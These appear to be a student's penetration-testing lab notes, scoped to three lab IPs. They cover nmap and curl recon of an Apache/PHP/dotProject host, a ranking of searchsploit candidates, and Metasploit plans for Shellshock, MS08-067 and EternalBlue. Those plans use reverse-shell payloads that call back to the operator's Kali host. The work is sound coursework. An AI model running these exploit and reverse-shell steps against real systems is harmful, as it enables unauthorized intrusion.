# Work (scratch)

Session transcripts, command snippets, loot exports, and rough notes. Keep **passwords and live tokens out of git**—paste redacted copies here if you need a paper trail.

---

# Plan of attack (A_Rocha IPs)

**Scope:** Lab-authorized targets only — `10.20.160.102`, `10.20.160.101`, `10.20.160.100`.  
**Operator VM:** **KALI6** (see [parent README](../README.md)).  
**Placeholders:** Replace `<KALI_IP>` with your Kali interface IP (e.g. from `ip -br a` or `ip addr`), `<RHOST>` with the target below.

Summaries below match the Nessus notes in [../README.md](../README.md#nessus--my-hosts-specs--findings); adjust ports and paths after your own `nmap` / service scan.

---

## `10.20.160.102` — Linux (Kernel 2.6)

### Specs & exposure (recap)

| Field | Value |
|-------|--------|
| **OS** | Linux Kernel 2.6 |
| **Nessus highlights** | **Shellshock** (CGI, critical), legacy **SSLv2/v3**, **TLS 1.0**, **DROWN**, **TRACE/TRACK**, **printenv** CGI disclosure, **Logjam**, HTTP/PHP surface |

### Vulnerabilities (brief)

- **Shellshock** — Bash CGI environment injection; often entry via `/cgi-bin/` scripts.
- **Weak TLS stack** — old OpenSSL behavior; may support bad ciphers; useful for MiTM in class demos, less often direct shell.
- **HTTP methods / CGI** — TRACE/TRACK and printenv-style scripts can leak config or assist chaining with Shellshock.

### Plan of attack (commands)

**1 — Map services (adjust ports after discovery).**

```bash
# Identity stamp (course habit)
echo "$USER"; date
export RHOST=10.20.160.102

nmap -Pn -sS -sV -sC -T4 "$RHOST" -oA ~/scans/nmap_102_initial
nmap -Pn -sV --top-ports 1000 "$RHOST"
# If web suspected:
nmap -Pn -p 80,443,8080,8443 -sV --script http-enum,http-headers "$RHOST"
```

**2 — Shellshock validation (non-destructive first).**

```bash
# If HTTP(S) on 80/443/8080 — list scripts
curl -sik "http://$RHOST/" 
curl -sik "http://$RHOST/cgi-bin/" 

# Nmap Shellshock script against known web ports
nmap -Pn -p 80,443,8080 --script http-shellshock --script-args http-shellshock.uri=/cgi-bin/test.cgi "$RHOST"
```

**3 — Exploitation path (Metasploit example — module names may vary by version).**

```bash
msfconsole -q
```

```text
workspace -a final_systems
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS 10.20.160.102
set RPORT 80
set TARGETURI /cgi-bin/<script_from_enum>
set LHOST <KALI_IP>
set LPORT 4444
set PAYLOAD cmd/unix/reverse_bash
run
```

**4 — Post-ex (local proof / flags).**

```bash
# In obtained shell — adapt paths for course flags
hostname; whoami; id
find / -name "local.txt" 2>/dev/null
find / -name "proof.txt" 2>/dev/null
```

### Recon snapshot — `10.20.160.102` (validated)



| Observation | Detail |
|-------------|--------|
| **Command** | `nmap -Pn -sS -sV -T4 "$RHOST_102" -oA ~/scans/nmap_102_initial` (your run) |
| **Identity stamp** | `echo TM6_afrocha; date` — good habit; keep on evidence for the report |
| **22/tcp** | **Closed** — skip SSH brute force for this target for now |
| **80/tcp** | **Open** — **Apache httpd 2.2.21** (Unix), **PHP/5.3.8**, **WebDAV (DAV/2)**, **mod_ssl** + **OpenSSL 1.0.0c**, mod_perl / Perl 5.10.1 |
| **443/tcp** | **Open** — treat as HTTPS; run TLS/http scripts after 80 |
| **997 filtered** | Narrow external surface — focus on **web** paths |

**Can we move forward with the plan of attack, or adjust?**

**Move forward — same overall plan (web / CGI / Shellshock lane).** The live scan **confirms** a classic **outdated LAMP-style stack** on **80/443**, which matches the Nessus story (Shellshock, CGI, weak TLS). **Adjustments to prioritize next:**

1. **Double down on HTTP enumeration** — discover real script paths before Metasploit `TARGETURI`: `curl -sik http://10.20.160.102/`, directory brute force on `/cgi-bin/` and common dirs, then `nmap -p80,443 --script http-enum,http-shellshock` with **discovered** URIs (not only `/cgi-bin/test.cgi`).
2. **Add version-led exploit search** — `searchsploit apache 2.2.21`, `searchsploit php 5.3.8`, and Metasploit `search type:exploit apache` / `php` (lab-authorized only).
3. **WebDAV** — if PROPFIND/PUT behavior is weak, note it as a separate finding path (upload / traversal) per rubric.
4. **Do not** sink time into **SSH** on this host until web lanes are exhausted (port 22 closed).

`.101` and `.100` sections are **unchanged** until you have equivalent nmap evidence for those.

### Recon — `http-enum` + `http-headers` on **80 / 443** (validated)



| Observation | Detail |
|---------------|--------|
| **Command** | `nmap -Pn -p 80,443,8080,8443 -sV --script http-enum,http-headers "$RHOST_102"` (~38 s) |
| **80/tcp** | **open** — same Apache **2.2.21** / **PHP 5.3.8** / DAV stack as initial scan |
| **443/tcp** | **open** — HTTPS (continue script/tls passes here; `https-redirect` script errored in this run—retry with `-d` or manual `curl -k` if needed) |
| **8080 / 8443** | **filtered** — deprioritize until something else opens them |

**`http-enum` highlights**

| Path | Note |
|------|------|
| `/phpmyadmin/` | **401 Authorization Required** — creds or bypass research (lab rules) |
| `/icons/` | **Directory listing** enabled — version banner leakage; low-hanging info disclosure |
| `/webalizer/` | **401** — auth gate |

**`http-headers` highlights**

- **`Set-Cookie`**: `dotproject=…` with `path=/dotproject/` → treat **`/dotproject/`** as a primary app target (**dotProject** PHP app — search CVEs / `searchsploit dotproject` for matching major version after you read the page source/login).
- **`X-Powered-By: PHP/5.3.8`** — confirms PHP surface for app bugs + any misconfigured upload paths.

**Plan tweak after this scan**

1. **Manual browse** — `curl -sik http://10.20.160.102/` , `curl -sik http://10.20.160.102/dotproject/`, `curl -sik http://10.20.160.102/phpmyadmin/` (expect 401 on phpMyAdmin).
2. **App-led exploits** — dotProject + phpMyAdmin + Apache/PHP version strings drive `searchsploit` / MSF **in parallel** with CGI/Shellshock (you may get a shell faster via a known webapp CVE than generic CGI).
3. **Shellshock** — still run `http-shellshock` against **discovered** CGI paths (not only `/cgi-bin/test.cgi`); enum may add paths on next passes.

### Recon — `curl` to site root (`HTTP 302` → dotProject)



| Field | Value |
|-------|--------|
| **Command** | `curl -sik "http://$RHOST_102/"` |
| **Status** | **HTTP/1.1 302 Found** |
| **Location** | `http://10.20.160.102/dotproject/` — **root URL redirects here**; treat **`/dotproject/`** as the real entry point (not bare `/`) |
| **Server** | `Apache/2.2.21 (Unix) DAV/2` … `OpenSSL/1.0.0c` **`PHP/5.3.8`** … `mod_perl` … (same stack as prior scans) |
| **X-Powered-By** | `PHP/5.3.8` |

**Takeaway:** Enumerate and exploit **dotProject** first (version from HTML/login, `searchsploit dotproject`, default/weak creds per lab policy). Generic CGI/Shellshock remains parallel if you find executable scripts under `/cgi-bin/` or app-upload paths.

### Recon — `curl` to `/dotproject` (`HTTP 301` → trailing slash)





| Field | Value |
|-------|--------|
| **Commands** | `curl -sik "http://$RHOST_102/dotproject"` piped to `head -n 80`; follow-up `https://` attempts and `echo TM6_afrocha; date` |
| **HTTP status** | **301 Moved Permanently** — **`/dotproject`** (no trailing slash) **canonicalizes** to **`http://10.20.160.102/dotproject/`** via **`Location:`** |
| **Server** | Same banner as other probes: **Apache/2.2.21**, **PHP/5.3.8**, DAV, **OpenSSL 1.0.0c**, mod_perl, etc. |
| **HTTPS** | For **443**, use explicit URL and verbose TLS if needed: `curl -vk "https://$RHOST_102/dotproject/"` (or path you are testing); **`-k`** only if the cert chain fails and the lab allows ignoring verification |

**Takeaway:** Treat **`/dotproject/`** (with slash) as the stable path; the **301** is normal directory canonicalization, not a separate app.

#### dotProject — ordered path forward (when exploits feel “stuck”)

1. **Fingerprint the app version** — without this, `searchsploit dotproject` is only a menu. Save evidence with your stamp:
   - `curl -s "http://$RHOST_102/dotproject/" | head -n 200` (login/footer/version text)
   - `curl -sik "http://$RHOST_102/dotproject/index.php"` and grep for `dotProject`, `dPversion`, `version`
   - Quick probes (often 404, cheap to try): `/dotproject/README`, `/dotproject/docs/`, `/dotproject/install/`, `/dotproject/includes/version.php` (names vary by release)
2. **Match version to Exploit-DB** — `searchsploit -x php/webapps/…` only for rows whose **affected versions include yours**; note required auth (guest vs logged-in).
3. **Prove the vulnerable path exists** — before running exploit code: `curl -sI "http://$RHOST_102/dotproject/<path-from-advisory>"` (expect **200** or the status the advisory assumes).
4. **Access** — if the vuln needs a session: default/weak creds **only if the lab rubric allows**, else SQLi/auth-bypass rows that fit your version.
5. **Parallel (same host)** — **`/phpmyadmin/`** (401): worth a careful read of enum + course policy; **WebDAV** / **`/icons/`** listing already noted; keep **`gobuster` on `/dotproject/`** for backup files (`*.bak`, `config.php`, etc.).

### Recon — `dotproject/index.php` (fingerprint — **Version 2.1.6**)





| Field | Value |
|-------|--------|
| **Command** | `curl -sik "http://$RHOST_102/dotproject/index.php"` (body trimmed with `head` as needed) |
| **HTTP** | **200 OK** — login surface; **`Set-Cookie`** `dotproject=…` with **`path=/dotproject/`** |
| **Version** | **`<meta name="Version" content="2.1.6" />`** and footer text **Version 2.1.6** — use this to filter **`searchsploit`** / CVEs (ignore unrelated major versions). |
| **Path disclosure** | PHP **Notice** references **`/opt/lampp/htdocs/dotproject/install/do_install_db.php`** — docroot under **XAMPP/LAMPP** (`/opt/lampp/htdocs/`); useful for report narrative and any **LFI/RFI** path logic. |
| **Login** | **`POST`** to **`index.php`** with **`username`**, **`password`**, hidden **`login`**, **`lostpass`**, **`redirect`** — password recovery toggles via **`lostpass`**. |

**Exploit search (narrowed):** `searchsploit dotproject 2.1.6` then **`searchsploit -x`** on hits that list **2.1.6** (e.g. **baseDir RFI** class for that line). Re-check **`/dotproject/install/`** behavior only in a way your lab allows (some installs leave risky endpoints).

### Recon — `curl /cgi-bin` (404; headers + error body)




| Field | Value |
|-------|--------|
| **Commands** | `curl -sik "http://$RHOST_102/cgi-bin"` (and follow-up showing HTML 404 + stamp) |
| **HTTP status** | **404 Not Found** for this URL — **`/cgi-bin` is not a document** (no trailing slash / no default index) |
| **Still useful** | **Server** header repeats Apache **2.2.21**, **PHP 5.3.8**, DAV, OpenSSL **1.0.0c**, etc. — same intel as other probes |
| **404 body** | Standard Apache “Object not found!” — confirms **10.20.160.102** in `<address>` line on error pages |

#### Do we have what we need for **Metasploit `TARGETURI`** (Shellshock / `apache_mod_cgi_bash_env_exec`)?

| Need | Status |
|------|--------|
| **A real CGI script path** (e.g. `/cgi-bin/stats.cgi`) that returns **200** or executes via CGI | **Not yet** — only probed **`/cgi-bin`** → **404**. You cannot set `TARGETURI` to `/cgi-bin` alone; the module needs a **specific .cgi** (or equivalent) endpoint. |
| **Proof the stack is old / CGI-capable** | **Yes** — banners on 404 still leak versions; worth continuing **directory brute-force** on `/cgi-bin/` and **`nikto` / `gobuster`** for `.cgi` files. |

**Next commands (examples):**

```bash
curl -sik "http://$RHOST_102/cgi-bin/"
nmap -p80 --script http-shellshock --script-args http-shellshock.uri=/cgi-bin/test.cgi "$RHOST_102"
gobuster dir -u "http://$RHOST_102/cgi-bin/" -w /usr/share/wordlists/dirb/common.txt -x cgi,pl,sh
```

Until a **working CGI path** shows up, prioritize **`/dotproject/`** and app/CVE lanes; keep Shellshock as **parallel** once you have a real script URL.

### Recon — `nmap --script http-shellshock` (default test URI)


| Field | Value |
|-------|--------|
| **Command** | `nmap -Pn -p 80,443,8080 --script http-shellshock --script-args http-shellshock.uri=/cgi-bin/test.cgi "$RHOST_102"` |
| **Ports** | **80** open (http), **443** open (https), **8080** **filtered** (skip for now) |
| **Shellshock script output** | **None** — Nmap did **not** print a `|_ http-shellshock:` result line under the ports |

**What that means**

- The **NSE script ran**, but **did not report Shellshock** for **`http-shellshock.uri=/cgi-bin/test.cgi`**.
- Typical reasons: **`/cgi-bin/test.cgi` does not exist** (matches your earlier **404** on `/cgi-bin`), or the path is **not executed as CGI**, or the host is **not vulnerable** at that URL.
- So this scan **does not** give you a working **`TARGETURI`** for Metasploit — it **rules out** (or fails to confirm) the **stock example** path only.

**What to do next**

1. **Brute-force real `.cgi` / `.pl` names** under `/cgi-bin/` (see `gobuster`/`ffuf` above), then re-run `http-shellshock` with **`http-shellshock.uri=/cgi-bin/<found>.cgi`** per hit.
2. **Don’t stall on Shellshock** — your **302 → `/dotproject/`** line is still the best **documented** entry; keep that thread hot.

### COA 2 — `searchsploit` options (Apache / PHP stack on `.102`)

#### `TARGETURI` for PHP / dotProject vs Shellshock (different meanings)

| Topic | What to set | Your `.102` status |
|--------|-------------|-------------------|
| **Metasploit `apache_mod_cgi_bash_env_exec` (Shellshock)** | **`TARGETURI`** = path to a **single CGI executable** (e.g. `/cgi-bin/foo.cgi`). Not PHP under mod_php. | **No** working CGI path documented yet — still need a real **`.cgi`** (or equiv.) that runs. |
| **Metasploit PHP / webapp modules** | Usually **`TARGETURI`** = **web root of the app**, often **`/dotproject/`** (trailing slash per module docs). Some modules add options for a vulnerable script name. | **Yes — use `/dotproject/`** as the **base path** once you pick a module whose prerequisites match your fingerprinted **dotProject** version. |
| **Exploit-DB / `searchsploit` PHP scripts** | Often a **full URL** or **path under the app** passed on the command line; paths in the DB (e.g. `modules/public/calendar.php`) are **relative to the dotProject folder**. | Full URL pattern: **`http://10.20.160.102/dotproject/<path-from-exploit>`** — confirm the file exists with **`curl -I`** before running anything. |

**Summary:** You **do** have a stable **app base** for PHP work: **`/dotproject/`**. You **do not** reuse that string as Shellshock **`TARGETURI`** unless you later find a **CGI** endpoint; for dotProject, the interesting file paths come from **`searchsploit -x …`** and **`curl`** verification, not from the Shellshock module.

Evidence captures:

| Screenshot | Command |
|------------|---------|
|  | `searchsploit apache 2.2.21` |
|  | `searchsploit php 5.3.8` |
|  | (long `php 5.3.8` result list) |
|  | same search + `echo TM6_afrocha; date` |
|  | `searchsploit dotproject` + `echo TM6_afrocha; date` |

**Prioritized “options” (read each exploit’s header before running anything):**

| Tier | Exploit-DB path (examples from your output) | Why it might matter |
|------|----------------------------------------------|---------------------|
| **A — try first** | `php/remote/29290.c`, `php/remote/29316.py` — **Apache + PHP &lt; 5.3.12 / &lt; 5.4.2 — cgi-bin / RCE** | Matches **PHP 5.3.8** + Apache; often needs **`php-cgi`**-style URL or specific **`cgi-bin`** routing — align with your enum. |
| **A** | `php/remote/18836.py` — **PHP &lt; 5.3.12 / &lt; 5.4.2 — CGI argument injection** (CVE-2012-1823 class) | Famous **PHP-CGI** misconfiguration; requires vulnerable **`php-cgi`** invocation (not every mod_php site). |
| **B — research / maybe** | `linux/webapps/42745.py` — **Apache &lt; 2.2.34 / &lt; 2.4.27 — OPTIONS memory leak** | Your server is **2.2.21** → **in range** for this class of issue; often **info leak / DoS**, not instant shell — still worth **reading** for class. |
| **C — skip for shell** | `linux/dos/41769.txt` — **mod_setenvif integer overflow** | **DoS**, not reliable for proof-of-compromise in most labs. |
| **Parallel (app)** | `searchsploit dotproject` — RFI/SQLi/XSS/auth-bypass rows under **`php/webapps/`** (see screenshot) | Pick entries that match **fingerprinted dotProject version**; paths like **`/modules/.../foo.php`** are under **`/dotproject/`** on this host. |

**Commands to drill into an option (safe prep):**

```bash
# Read exploit text / prerequisites (always do this first)
searchsploit -x php/remote/18836.py
searchsploit -x php/remote/29316.py
searchsploit -x linux/webapps/42745.py

# Copy exploit into cwd for editing
searchsploit -m php/remote/18836.py
searchsploit -m php/remote/29316.py

# Metasploit may have modules for PHP-CGI / Apache — search after you know CVE
msfconsole -q -x "search php cgi 2012; search apache 2.2; exit"

# dotProject app exploits — read the matching Exploit-DB path, then mirror script paths under http://$RHOST_102/dotproject/
searchsploit -x php/webapps/XXXXX.py
```

**Reality check:** Many rows in `searchsploit php 5.3.8` are **unrelated apps** (Drupal, WordPress plugins, etc.) — **ignore** unless that software is on **`.102`**. Your **confirmed** stack is **Apache 2.2.21 + PHP 5.3.8 + dotProject** — **Tier A + dotProject** stay in scope; everything else is noise until fingerprinted.

---

## `10.20.160.101` — Windows 7 Ultimate

### Specs & exposure (recap)

| Field | Value |
|-------|--------|
| **MAC** | 00:50:56:86:4F:A2 |
| **OS** | Windows 7 Ultimate |
| **Open ports (from host table)** | 135, 139, 445, 49152–49222 range (RPC/SMB stack) |
| **Nessus highlights** | **SSLv2/v3**, **RDP MiTM class** finding, **DROWN**, **Logjam**, **FTP** info, terminal services crypto not FIPS |

### Vulnerabilities (brief)

- **SMB / Windows RPC** — enumerate shares, users, signing; pivot for creds or MS17-010 class checks if applicable to build.
- **RDP (3389 likely)** — password spray / known weak creds in lab; “MiTM” plugin is a hygiene signal, not a remote exploit by itself.
- **FTP** — anonymous or weak creds if enabled.
- **SSL/TLS** — downgrade issues; usually supporting evidence, not primary shell path.

### Plan of attack (commands)

**1 — SMB & MS-RPC fingerprint.**

```bash
export RHOST=10.20.160.101

nmap -Pn -sV -p 135,139,445,21,3389,5985 -sC "$RHOST" -oA ~/scans/nmap_101
nmap -Pn -p445 --script smb-os-discovery,smb-security-mode,smb-enum-shares "$RHOST"
```

**2 — SMB enum (no creds → then with creds).**

```bash
smbclient -L "//${RHOST}" -N
crackmapexec smb "$RHOST" --shares -u '' -p ''
enum4linux -a "$RHOST"
```

**3 — MS17-010 style check (only if SMB says Win7 and lab allows).**

```bash
nmap -Pn -p445 --script smb-vuln-ms17-010 "$RHOST"
# Metasploit:
# use auxiliary/scanner/smb/smb_ms17_010
# set RHOSTS 10.20.160.101; run
```

**4 — RDP if 3389 open.**

```bash
nmap -Pn -p3389 -sV "$RHOST"
# xfreerdp example (after you HAVE creds):
# xfreerdp /v:"$RHOST" /u:<user> /p:<pass> /cert:ignore
```

**5 — FTP if open.**

```bash
nmap -Pn -p21 -sV -sC "$RHOST"
ftp "$RHOST"
# test anonymous: user anonymous, pass test@
```

---

## `10.20.160.100` — Windows XP (EOL)

### Specs & exposure (recap)

| Field | Value |
|-------|--------|
| **OS** | Windows XP SP2/SP3 / embedded variant |
| **Open ports (from host table)** | **139, 445** (SMB), RDP likely given Nessus |
| **Nessus highlights** | **Unsupported XP** (critical), **SMB** issues, **RDP** MiTM class, many **info** SMB/plugin rows |

### Vulnerabilities (brief)

- **EOL OS** — huge unpatched surface; **SMBv1** era bugs (MS08-067, MS17-010) *may* apply depending on service pack and lab image.
- **RDP** — weak creds or known lab passwords.
- **SMB** — null session, share enumeration, pipe abuse per lab tooling.

### Plan of attack (commands)

**1 — Fast SMB + vuln scripts.**

```bash
export RHOST=10.20.160.100

nmap -Pn -sV -p139,445,3389 -sC "$RHOST" -oA ~/scans/nmap_100
nmap -Pn -p445 --script smb-os-discovery,smb-vuln-ms17-010,smb-vuln-ms08-067 "$RHOST"
```

**2 — Enum4linux / smbclient.**

```bash
enum4linux -a "$RHOST"
smbclient -L "//${RHOST}" -N
rpcclient -U "" -N "$RHOST"
```

**3 — Metasploit lanes (pick what matches scan; do not blindly exploit).**

```text
use auxiliary/scanner/smb/smb_version
set RHOSTS 10.20.160.100
run

use exploit/windows/smb/ms08_067_netapi
# OR (if SP/build matches MS17-010 positive check):
# use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.20.160.100
set LHOST <KALI_IP>
set payload windows/meterpreter/reverse_tcp
check
```

**4 — Proof files (same pattern as other hosts).**

```text
meterpreter > getuid
meterpreter > shell
C:\> hostname && whoami
C:\> dir /s /b proof.txt 2>nul & dir /s /b local.txt 2>nul
```

---

## Ordering suggestion (one operator on KALI6)

1. **.102** — Often fastest **web/Shellshock** path to a shell; low collision with SMB-heavy Windows work.  
2. **.100** — **XP/SMB** classics; do while you have Metasploit workspace warm.  
3. **.101** — **Win7** harder target; use creds or results from **.100** lateral moves if the scenario allows.

